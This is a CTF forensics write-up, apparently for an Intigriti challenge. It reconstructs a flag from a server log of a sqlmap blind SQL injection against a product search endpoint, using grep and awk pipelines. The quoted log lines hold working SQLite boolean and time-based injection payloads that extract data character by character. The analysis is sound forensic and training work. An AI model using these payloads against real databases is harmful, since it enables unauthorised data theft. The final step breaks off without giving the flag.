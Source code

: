 1. Here we need to analyze a log file which has logs about a SQL injection attack. Based on that we need to figure out what the flag is
2. Looking at the SQLi payload, we can say this is boolean based injection because we have the logical operators (<,>) used.

```
2024-08-25 00:15:10,350 - werkzeug - INFO - 192.168.1.7 - - [25/Aug/2024 00:15:01] "GET /search?product='%20AND%203404%3D(CASE%20WHEN%20(9854>9853)%20THEN%20(LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))%20ELSE%203404%20END)--%20SPwN HTTP/1.1" 200 -
```

3. And based on the format, we can say this is from sqlmap. Since sqlmap compares each character ordinal value and sort of bruteforces the correct value, we can easily figure out what characters we have for each query.
4. Since this is a bruteforce, after it gets a correct hit for a character, it will return true or false based on the query and then move on to the next query. So the last request for each character should be the correct value for the that.
5. Looking at the end of the file, we can see sqlmap has identified the table as `products` the column as `description` and the id as `4` ( we can get a request from the log file, decode and format it to get this output)
6. If we look at the requests for `name` column, we can see the name for id `4` is `FLAG`

```bash
cat app.log|grep name|grep 'LIMIT%203,1'
```

Based on the theory, we need to extract the last character attempt for each character.

```
2024-08-25 00:15:10,350 - werkzeug - INFO - 192.168.1.7 - - [25/Aug/2024 00:15:10] "GET /search?product='%20AND%209332%3D(CASE%20WHEN%20(SUBSTR((SELECT%20COALESCE(`name`,CHAR(32))%20FROM%20products%20LIMIT%203,1),1,1)!%3DCHAR(70))%20THEN%20(LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(200000000/2)))))%20ELSE%209332%20END)--%20vKph HTTP/1.1" 200 -
```

This one is for the first character, we can find that out from the `substr` function

```sql
SUBSTR((SELECT%20COALESCE(`name`,CHAR(32))%20FROM%20products%20LIMIT%203,1),1,1)
```

```python
>>> chr(70)
'F'
>>> chr(76)
'L'
>>> chr(65)
'A'
>>> chr(71)
'G'
>>>
```

7. We also see there is another field called the description. Therefore, we can go for the description of product with id 4 which is the `FLAG` product name.

```sql
└─$ cat app.log|urldecode| awk -F 'product=' '{ print $2 }'|grep description |awk -F 'HTTP/1.1' '{ print $1 }'|grep "LIMIT 3,1),1,1)"
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(65)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(96)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(80)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(72)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(76)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(74)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),1,1)>CHAR(73)-- Qlbf
```

Here we can see different ordinal values are compared to narrow down the correct value of the first character of the description field for `FLAG` product. Ordinal values start from 65 and then goes to see if the actual ordinal value is greater of less than that value. Finally, it narrows it down to 2 values as we can see which are 74 and 73.

First it checks if the ordinal value of the first character is greater than 74, according to the output of that it goes and see if its greater than 73. We can't say which is the correct value for sure in this case as we don't know the output of these queries. But we know that the flag starts as `INTIGRITI{`.

So the first character has to be `I` which has ordinal of 73.

```python
>>> chr(73)
'I'
>>>
```

Likewise, we can find 2-3 possible values for all the characters on the flag. We can sort of automate this to get the possible values for the flag. (From the log file we can see that this goes till the 28th character. Which means the description, our flag is 28 characters long, including the line break. So 27 characters in length)

```bash
for i in `seq 1 28`;do cat app.log|urldecode| awk -F 'product=' '{ print $2 }'|grep description |awk -F 'HTTP/1.1' '{ print $1 }'|grep "LIMIT 3,1),$i,1)"|tail -n 3|awk -F '>CHAR' '{ print $2 }'|awk -F '-- ' '{print $1}'|awk -F '(' '{ print $2 }'|awk -F ')' '{ print $1 }'|xargs -I {} python3 -c "print(chr({}))";echo '-----' ;done
```

```bash

L
J
I
-----
L
N
M
-----
T
R
S
-----
L
J
I
-----
D
F
G
-----
T
R
Q
-----
L
J
I
-----
T
R
S
-----
L
J
I
-----
|
z
{
-----
5
3
4
-----
p
r
q
-----
.
/
0
-----
\
^
_
-----
l
j
k
-----
l
n
o
-----
d
f
g
-----
]
^
_
-----
d
b
a
-----
l
n
m
-----
d
b
a
-----
l
j
k
-----
|
z
y
-----
t
r
s
-----
.
/
0
-----
p
r
s
-----
|
~
}
-----


```

We already know the first 9 characters are going to be `INTIGRITI` and then the 10th character is probably `{`.

```bash
└─$ cat app.log|urldecode| awk -F 'product=' '{ print $2 }'|grep description |awk -F 'HTTP/1.1' '{ print $1 }'|grep "LIMIT 3,1),10,1)"|tail -n 3|awk -F '>CHAR' '{ print $2 }'|awk -F '-- ' '{print $1}'|awk -F '(' '{ print $2 }'|awk -F ')' '{ print $1 }'|xargs -I {} python3 -c "print(chr({}))";echo ''
|
z
{
```

Yes, it is. We see it in the end.

Then from there on we can look at the possible values and create the flag from the characters we have.

But do note that, this is just a little trick. We should look at the queries that were made relevant to that character to figure out which of those are most likely to be the correct one.

For example, in the 13th character, we get these as the possible characters.

```bash
└─$ cat app.log|urldecode| awk -F 'product=' '{ print $2 }'|grep description |awk -F 'HTTP/1.1' '{ print $1 }'|grep "LIMIT 3,1),13,1)"|tail -n 3|awk -F '>CHAR' '{ print $2 }'|awk -F '-- ' '{print $1}'|awk -F '(' '{ print $2 }'|awk -F ')' '{ print $1 }'|xargs -I {} python3 -c "print(chr({}))";echo ''
.
/
0
```

But none of them are. Here if you look at the logs for that character, we can see how the comparing was done.

```bash
└─$ cat app.log|urldecode| awk -F 'product=' '{ print $2 }'|grep description |awk -F 'HTTP/1.1' '{ print $1 }'|grep "LIMIT 3,1),13,1)"
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(96)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(49)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(1)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(26)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(37)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(43)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(46)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(47)-- Qlbf
' AND SUBSTR((SELECT COALESCE(CAST(description AS TEXT),CHAR(32)) FROM products LIMIT 3,1),13,1)>CHAR(48)-- Qlbf
```

Here first its narrowing down the values from 96 down to 47 and then 48. If the output for the last request was False, then that means the correct value is 48. But if it was True, that means the correct value is greater than 48 which is 49.

```python
>>> chr(49)
'1'
>>>
```

So likewise, we need to look at the log file and compare the queries and find out the correct values of the flag.

8.  Like this we need to go through the whole flag from character to character. Then you can get the flag like this.
